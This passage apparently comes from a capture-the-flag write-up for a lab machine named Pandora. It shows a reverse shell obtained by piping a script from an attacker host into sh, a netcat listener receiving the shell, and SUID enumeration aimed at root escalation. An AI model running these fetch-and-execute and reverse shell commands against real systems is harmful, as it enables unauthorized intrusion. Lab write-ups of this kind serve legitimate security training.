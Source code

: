 ```console

CMD > uname -a
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

CMD > curl http://10.10.14.14:8888/rbash.sh | sh
```

```console
└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.136] 52610
bash: cannot set terminal process group (802): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ id
id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
matt@pandora:/var/www/pandora/pandora_console/images$ uname -a
uname -a
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### matt -> root

Enumerate SUID files:

```console
matt@pandora:~$ find / -perm -u=s -type f 2>/dev/null -ls
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup
   267390     68 -rwsr-xr-x   1 root     root        68208 Jul 14  2021 /usr/bin/passwd
   264371     56 -rwsr-xr-x   1 root     root        55528 Jul 21  2020 /usr/bin/mount
   264643     68 -rwsr-xr-x   1 root     root        67816 Jul 21  2020 /usr/bin/su
   264040     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   264219     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
   267387     52 -rwsr-xr-x   1 root     root        53040 Jul 14  2021 /usr/bin/chsh
   262815    464 -rwsr-xr-x   1 root     root       473576 Jul 23  2021 /usr/lib/openssh/ssh-keysign
   264920     52 -rwsr-xr--   1 root     messagebus    51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   264927     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   266611     24 -rwsr-xr-x   1 root     root          22840 May 26  2021 /usr/lib/policykit-1/polkit-agent-helper-1
```

`/usr/bin/pandora_backup` is worth trying:
